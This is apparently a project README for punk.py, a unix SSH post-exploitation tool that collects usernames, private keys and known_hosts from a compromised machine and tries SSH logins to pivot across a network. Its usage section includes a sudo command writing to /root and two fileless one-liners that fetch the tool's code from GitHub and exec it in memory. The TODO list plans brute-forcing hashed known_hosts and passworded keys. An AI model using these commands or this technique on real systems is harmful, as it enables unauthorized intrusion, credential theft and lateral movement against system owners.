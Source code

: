 # punk.py

*unix SSH post-exploitation 1337 tool*



## how it works

punk.py is a post-exploitation tool meant to help network pivoting from a compromised unix box.
It collect usernames, ssh keys and known hosts from a unix system, then it tries to connect via ssh to all the combinations found.
punk.py is wrote in order to work on both standard python2 and python3 interpreters.



## Screenshot

![screenshot from 2018-12-11 14-01-15](https://user-images.githubusercontent.com/635790/49803344-ce4a0000-fd4f-11e8-86f9-b49d7e31989a.png)



## examples

standard execution:

```
 ~$ ./punk.py
```

skip passwd checks and use a custom home path:

```
 ~$ ./punk.py --no-passwd --home /home/ldapusers/
```

execute commands with sudo:

```
 ~$ ./punk.py --run "sudo sh -c 'echo iamROOT>/root/hacked.txt'"
```

python2 one-liner fileless ( with --no-passwd parameter ):
```
 ~$ python -c "import urllib2;exec(urllib2.urlopen('https://raw.githubusercontent.com/r3vn/punk.py/master/punk.py').read())" --no-passwd
```

python3 one-liner fileless ( with --crack parameter ):
```
~$ python3 -c "import requests;exec(requests.get('https://raw.githubusercontent.com/r3vn/punk.py/master/punk.py').text)"
```



## TODO

 - !! Hashed known_hosts bruteforce ( https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/ )
 - improve private keys hunting including dsa keys
 - Recursion
 - SSH keys with password bruteforce
